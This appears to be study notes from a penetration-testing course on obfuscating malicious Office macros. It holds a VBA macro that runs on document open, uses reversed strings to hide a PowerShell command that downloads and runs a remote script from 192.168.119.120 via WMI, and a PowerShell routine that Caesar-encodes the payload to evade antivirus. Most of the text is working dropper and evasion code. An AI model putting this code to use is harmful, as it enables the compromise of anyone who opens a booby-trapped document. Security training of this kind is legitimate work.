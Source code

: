 Reduce the number of times `StrReverse` appears in our code:

```VB
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Function bears(cows)
    bears = StrReverse(cows)
End Function

Sub MyMacro()
    Dim strArg As String
    strArg = bears("))'txt.nur/021.911.861.291//:ptth'(gnirtsdaolnwod.)tneilcbew.ten.metsys tcejbo-wen((xei c- pon- ssapyb cexe- llehsrewop")

    GetObject(bears(":stmgmniw")).Get(bears("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
```

Converting the ASCII string to its decimal representation and then performing a Caesar cipher encryption on the result.

Inside the loop, the byte value of each character is increased by `17` > Use `if` and `else` conditions to pad the character's decimal representation to `3` digits.

```pwsh
$payload = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"

# $payload = "winmgmts:"

# $payload = "Win32_Process"

[string]$output = ""

$payload.ToCharArray() | %{
    [string]$thischar = [byte][char]$_ + 17
    if($thischar.Length -eq 1)
    {
        $thischar = [string]"00" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 2)
    {
        $thischar = [string]"0" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 3)
    {
        $output += $thischar
    }
}
$output | clip
```
